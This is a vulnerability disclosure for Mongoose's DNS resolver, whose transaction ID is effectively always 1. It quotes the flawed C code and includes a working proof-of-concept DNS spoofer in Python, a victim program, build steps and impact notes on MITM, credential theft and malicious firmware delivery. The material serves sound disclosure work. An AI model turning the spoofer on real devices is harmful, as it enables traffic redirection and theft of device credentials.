

# Mongoose DNS Resolver Constant Transaction ID

## Description

The **mg_sendnsreq()** function in `/src/dns.c` generates DNS transaction IDs using a sequential counter that resets to 1 whenever the pending request list is empty. Since each resolved query is freed from the list before the next query is typically created, the transaction ID is **a constant value of 1** for all non-overlapping DNS queries. This allows an attacker to spoof DNS responses with 100% reliability without observing any prior traffic, completely bypassing the only authentication mechanism in the DNS protocol. The attack can be performed remotely by any host that can send UDP packets with a spoofed source IP to the victim, requires no authentication, and results in full control over hostname resolution -- enabling man-in-the-middle, credential theft, or redirection to malicious infrastructure.

## Details

*   **Vendor**: Cesanta

*   **Product**: Mongoose Embedded Web Server / Networking Library

*   **Affected Version**: cc617d53 (current master, and likely all prior versions)

*   **Source Repository**: https://github.com/cesanta/mongoose

*   **Component**: `/src/dns.c` (mg_sendnsreq function, DNS resolver)

*   **Vulnerability Type**:
    * Use of Insufficiently Random Values (CWE-330)
    * Use of a Predictable Algorithm in Random Number Generator (CWE-1241)

*   **CVE ID**: Requested

*   **Reported by**: dwbruijn

## Similar Vulnerabilities

* CVE-2024-52616
* CVE-2022-30295

## Vulnerable Code (`src/dns.c:249-269`)

The vulnerability is in the transaction ID generation, which uses a sequential counter that in practice always evaluates to the constant value 1.

```c
static void mg_sendnsreq(struct mg_connection *c, struct mg_str *name, int ms,
                         struct mg_dns *dnsc, bool ipv6) {
  struct dns_data *d = NULL;
  if (!mg_dnsc_init(c->mgr, dnsc)) {
    mg_error(c, "resolver");
  } else if ((d = (struct dns_data *) mg_calloc(1, sizeof(*d))) == NULL) {
    mg_error(c, "resolve OOM");
  } else {
    struct dns_data *reqs = (struct dns_data *) c->mgr->active_dns_requests;
    d->txnid = reqs ? (uint16_t) (reqs->txnid + 1) : 1;  // ⚠️ LINE 258: ALWAYS 1
    d->next = (struct dns_data *) c->mgr->active_dns_requests;
    c->mgr->active_dns_requests = d;
    d->expire = mg_millis() + (uint64_t) ms;
    d->c = c;
    c->is_resolving = 1;
    MG_VERBOSE(("%lu resolving %.*s @ %s, txnid %hu", c->id, (int) name->len,
                name->buf, dnsc->url, d->txnid));
    if (!mg_dns_send(dnsc->c, name, d->txnid, ipv6)) {
      mg_error(dnsc->c, "DNS send");
    }
  }
}
```

The intent on line 258 is to generate sequential IDs: if there are pending requests, use `last_txnid + 1`; otherwise start at 1. However, each resolved query is immediately freed from `active_dns_requests` in the response handler (`dns_cb`, line 193):

```c
// dns.c:170-194 (response handler)
for (d = *head; d != NULL; d = tmp) {
    tmp = d->next;
    if (dm.txnid != d->txnid) continue;  // ❌ Only check: 16-bit txnid match
    if (d->c->is_resolving) {
        if (dm.resolved) {
            dm.addr.port = d->c->rem.port;
            d->c->rem = dm.addr;            // Accept attacker-controlled IP
            mg_connect_resolved(d->c);       // Connect to attacker's server
        }
    }
    mg_dns_free(head, d);  // ⚠️ LINE 193: Entry freed, list becomes empty
    resolved = 1;
}
```

Since queries are resolved and freed before the next query is created, `active_dns_requests` is always empty (`reqs == NULL`), and `d->txnid` is always 1. Additionally, the response handler performs no validation beyond matching the 16-bit txnid -- no source IP verification, no query name cross-check, no DNSSEC.

## PoC

Send a spoofed UDP DNS response with `txnid=1` and the attacker's IP address to the victim's DNS client port. The response must arrive before the legitimate DNS server's response.

**Victim** (`poc/dns_victim.c`) -- a Mongoose application that resolves `target.example.com` every 2 seconds:

```c
// PoC: Mongoose DNS Predictable TXID - Victim Program
//
// Demonstrates that Mongoose's DNS resolver always uses txnid=1 for
// non-overlapping queries, allowing trivial DNS spoofing.
//
// Run dns_spoof.py first, then run this program.

#include "mongoose.h"

static int s_resolve_count = 0;
static int s_spoofed = 0;
static int s_legit = 0;

static void client_cb(struct mg_connection *c, int ev, void *ev_data) {
  if (ev == MG_EV_RESOLVE) {
    // DNS resolution just completed -- check what IP we got
    char buf[64];
    mg_snprintf(buf, sizeof(buf), "%M", mg_print_ip, &c->rem);
    bool spoofed = (strcmp(buf, "6.6.6.6") == 0);
    if (spoofed) s_spoofed++;
    else s_legit++;
    printf("[VICTIM] Query #%d: target.example.com -> %-15s %s\n",
           s_resolve_count, buf,
           spoofed ? "*** SPOOFED! ***" : "(legitimate)");
    c->is_closing = 1;
  } else if (ev == MG_EV_ERROR) {
    // Ignore connect errors to non-existent IPs
  }
  (void) ev_data;
}

static void timer_cb(void *arg) {
  struct mg_mgr *mgr = (struct mg_mgr *) arg;
  s_resolve_count++;
  mg_http_connect(mgr, "http://target.example.com:80/", client_cb, NULL);
}

int main(void) {
  struct mg_mgr mgr;
  struct mg_timer t;

  mg_log_set(MG_LL_NONE);
  mg_mgr_init(&mgr);

  // Point DNS at our controlled "server" on localhost:5353
  mgr.dns4.url = "udp://127.0.0.1:5353";
  mgr.dnstimeout = 3000;

  printf("=== Mongoose DNS Predictable TXID PoC - Victim ===\n");
  printf("DNS server: %s\n", mgr.dns4.url);
  printf("Expected IP: 1.2.3.4 (legitimate)\n");
  printf("Attack IP:   6.6.6.6 (spoofed)\n");
  printf("Resolving target.example.com every 2 seconds...\n\n");

  mg_timer_init(&mgr.timers, &t, 2000, MG_TIMER_REPEAT | MG_TIMER_RUN_NOW,
                timer_cb, &mgr);

  // Run for 12 seconds (6 queries)
  uint64_t end = mg_millis() + 12000;
  while (mg_millis() < end) {
    mg_mgr_poll(&mgr, 50);
  }

  mg_timer_free(&mgr.timers, &t);
  mg_mgr_free(&mgr);

  printf("\n=== Results ===\n");
  printf("Spoofed:    %d/%d queries redirected to attacker IP\n",
         s_spoofed, s_resolve_count);
  printf("Legitimate: %d/%d queries resolved correctly\n",
         s_legit, s_resolve_count);
  if (s_spoofed > 0) {
    printf("\n*** DNS SPOOF SUCCESSFUL ***\n");
    printf("The attacker redirected DNS resolution with ZERO prior\n");
    printf("observation. txnid is always 1 (dns.c:258).\n");
  }
  return 0;
}
```

**Attacker** (`poc/dns_spoof.py`) -- races a legitimate DNS server by sending a forged response with `txnid=1` and the attacker's IP address before the real response arrives:

```python
#!/usr/bin/env python3
"""
PoC: Mongoose DNS Predictable TXID - Attacker / Spoofer

Demonstrates that Mongoose uses a CONSTANT DNS transaction ID of 1 for all
non-overlapping queries. This allows trivial DNS spoofing without even needing
to observe traffic first.

Root cause (dns.c:257-258):
    struct dns_data *reqs = c->mgr->active_dns_requests;
    d->txnid = reqs ? (uint16_t)(reqs->txnid + 1) : 1;

Since each resolved query is freed from the list before the next one is
created, `reqs` is always NULL, and txnid is always 1.

Architecture:
  This script runs two threads sharing one UDP socket on port 5353:

  Thread 1 - "Legitimate DNS server":
    Receives queries, waits 50ms (simulating network latency), responds
    with the REAL IP (1.2.3.4).

  Thread 2 - "Attacker":
    When a query arrives, immediately sends a spoofed response with txnid=1
    and a MALICIOUS IP (6.6.6.6), racing the legitimate response.

  The victim program resolves to 6.6.6.6 (attacker's IP) instead of 1.2.3.4,
  proving the DNS spoof succeeded.

Usage:
  Terminal 1: python3 dns_spoof.py
  Terminal 2: cd poc && ./dns_victim
"""

import socket
import struct
import threading
import time
import sys

LISTEN_PORT = 5353
LEGIT_IP = "1.2.3.4"       # What the "real" DNS server would return
MALICIOUS_IP = "6.6.6.6"   # What the attacker injects

# The constant txnid Mongoose always uses (when queries don't overlap)
PREDICTED_TXNID = 1

# Shared state between threads
query_events = []  # list of (txnid, query_name, addr, raw_data)
new_query = threading.Event()
lock = threading.Lock()


def ip_to_bytes(ip_str):
    """Convert dotted IP string to 4 bytes."""
    return bytes(int(b) for b in ip_str.split("."))


def build_dns_response(txnid, query_data, answer_ip):
    """
    Build a DNS response by rewriting the query packet's header and appending
    an answer record. This ensures the question section matches exactly.
    """
    if len(query_data) < 12:
        return None

    # Rewrite header: set response flag, 1 answer
    header = struct.pack(
        "!HHHHHH",
        txnid,
        0x8180,  # Flags: response, recursion available
        struct.unpack("!H", query_data[4:6])[0],  # num_questions (preserve)
        1,       # num_answers: 1
        0,       # authority
        0,       # additional
    )

    # Keep the original question section verbatim
    question_section = query_data[12:]

    # Answer: name pointer to offset 12 (question name), type A, class IN,
    # TTL 60, 4 bytes of IP
    answer = struct.pack(
        "!HHHLH4s",
        0xC00C,  # Name pointer to offset 12
        1,       # Type A
        1,       # Class IN
        60,      # TTL
        4,       # Data length
        ip_to_bytes(answer_ip),
    )

    return header + question_section + answer


def parse_query_name(data, offset=12):
    """Parse DNS question name from wire format."""
    labels = []
    i = offset
    while i < len(data):
        length = data[i]
        if length == 0:
            break
        labels.append(data[i + 1 : i + 1 + length].decode("ascii", errors="replace"))
        i += 1 + length
    return ".".join(labels)


def receiver_thread(sock):
    """
    Receives DNS queries and dispatches them to both the attacker and
    legitimate server threads.
    """
    query_num = 0
    while True:
        try:
            data, addr = sock.recvfrom(512)
        except OSError:
            break

        if len(data) < 12:
            continue

        txnid = struct.unpack("!H", data[0:2])[0]
        name = parse_query_name(data)
        query_num += 1

        with lock:
            query_events.append((txnid, name, addr, data, query_num))

        new_query.set()

        print(f"[RECEIVER] Query #{query_num}: txnid={txnid}, name={name}")
        if txnid == PREDICTED_TXNID:
            print(f"[RECEIVER]   txnid == {PREDICTED_TXNID} as predicted!")
        else:
            print(f"[RECEIVER]   UNEXPECTED txnid (expected {PREDICTED_TXNID})")


def attacker_thread(sock):
    """
    The attacker: for every incoming query, immediately sends a spoofed
    response with txnid=1 and the malicious IP. Races the legitimate server.
    """
    last_seen = 0
    print(f"[ATTACKER] Ready. Will spoof ALL responses with txnid={PREDICTED_TXNID}"
          f", IP={MALICIOUS_IP}")
    print(f"[ATTACKER] No observation needed -- txnid is always {PREDICTED_TXNID}!")
    print()

    while True:
        new_query.wait()
        new_query.clear()

        with lock:
            if len(query_events) <= last_seen:
                continue
            entries = query_events[last_seen:]
            last_seen = len(query_events)

        for txnid, name, addr, raw_data, qnum in entries:
            # Build and send spoofed response IMMEDIATELY (no delay)
            response = build_dns_response(PREDICTED_TXNID, raw_data, MALICIOUS_IP)
            if response:
                sock.sendto(response, addr)
                print(
                    f"[ATTACKER] >>> Sent spoofed response for query #{qnum}: "
                    f"txnid={PREDICTED_TXNID}, IP={MALICIOUS_IP}"
                )


def legitimate_server_thread(sock):
    """
    The legitimate DNS server: responds correctly but with a small delay
    simulating real-world network latency.
    """
    last_seen = 0

    while True:
        new_query.wait()
        # Don't clear -- let attacker also see it

        with lock:
            if len(query_events) <= last_seen:
                time.sleep(0.01)
                continue
            entries = query_events[last_seen:]
            last_seen = len(query_events)

        for txnid, name, addr, raw_data, qnum in entries:
            # Simulate network latency -- this delay lets the attacker win the race
            time.sleep(0.05)
            response = build_dns_response(txnid, raw_data, LEGIT_IP)
            if response:
                sock.sendto(response, addr)
                print(
                    f"[LEGIT]    Sent real response for query #{qnum}: "
                    f"txnid={txnid}, IP={LEGIT_IP}"
                )
            print()


def main():
    print("=" * 65)
    print("  Mongoose DNS Predictable TXID - Proof of Concept")
    print("=" * 65)
    print()
    print(f"  Predicted txnid:         {PREDICTED_TXNID} (constant!)")
    print(f"  Legitimate DNS answer:   {LEGIT_IP}")
    print(f"  Attacker spoofed answer: {MALICIOUS_IP}")
    print()
    print("  If the victim resolves to 6.6.6.6 instead of 1.2.3.4,")
    print("  the DNS spoof succeeded.")
    print()
    print("  Start the victim in another terminal:")
    print("    cd poc && ./dns_victim")
    print("=" * 65)
    print()

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(("127.0.0.1", LISTEN_PORT))

    # Start all threads
    threading.Thread(target=receiver_thread, args=(sock,), daemon=True).start()
    time.sleep(0.1)
    threading.Thread(target=attacker_thread, args=(sock,), daemon=True).start()
    threading.Thread(target=legitimate_server_thread, args=(sock,), daemon=True).start()

    try:
        while True:
            time.sleep(1)
    except KeyboardInterrupt:
        print("\n[*] Shutting down.")
        sock.close()


if __name__ == "__main__":
    main()
```

### Triggering the vulnerability

create `poc` direcotry in mongoose repo directory.
copy the `dns_victom.c` and `dns_spoof.py` into `poc` directory

```bash
# Build victim
cd poc
gcc -o dns_victim dns_victim.c ../mongoose.c -I.. -lpthread

# Terminal 1: Start attacker (acts as DNS server + spoofing attacker)
python3 dns_spoof.py

# Terminal 2: Run victim
./dns_victim
```

**Output -- Victim (all queries spoofed):**




## Potential Impact

The constant `txnid=1` reduces the effective entropy protecting DNS resolution from 16 bits (already considered insufficient by RFC 5452) to **zero bits**. An attacker can spoof DNS responses with 100% reliability, requiring only the ability to send a UDP packet with a spoofed source address to the victim.

**Direct consequences:**

*   **Man-in-the-middle**: Redirect any hostname resolution to an attacker-controlled server, intercepting all subsequent traffic (HTTP API calls, MQTT broker connections, NTP, OTA update servers).

*   **Credential theft**: If the Mongoose device connects to a cloud API or MQTT broker by hostname, the attacker redirects it to a lookalike server that captures authentication tokens, API keys, or device certificates.

*   **Malicious firmware delivery**: If the device performs OTA firmware updates over HTTP using hostname resolution, the attacker redirects the update URL to serve malicious firmware. Mongoose's OTA mechanism (`src/flash.c`) performs no cryptographic signature verification (only CRC32), so the malicious firmware would be accepted and flashed.

**Amplifying factors in the Mongoose built-in TCP/IP stack (MIP):**

When using Mongoose's built-in network stack (`net_builtin.c`), the vulnerability is compounded by:

1.  **Sequential ephemeral source ports** (`net_builtin.c:2025`): DNS query source ports are assigned from a sequential counter starting at `MG_EPHEMERAL_PORT_BASE`, reducing the source port entropy to zero as well. Combined with the constant txnid, the attacker can perform **blind off-path DNS spoofing** without needing to observe any traffic or be on the same network segment.

2.  **Deterministic TCP ISNs** (`net_builtin.c:2005-2008`): TCP Initial Sequence Numbers are derived from the ephemeral port number, meaning that after a successful DNS spoof redirects a TCP connection to the attacker, the ISN is also predictable -- enabling further attacks on the TCP session.

These three vulnerabilities together (constant DNS txnid + sequential source ports + deterministic ISNs) mean that the entire connection establishment path -- from DNS resolution through TCP handshake -- has effectively **zero cryptographic or probabilistic protection** against spoofing.
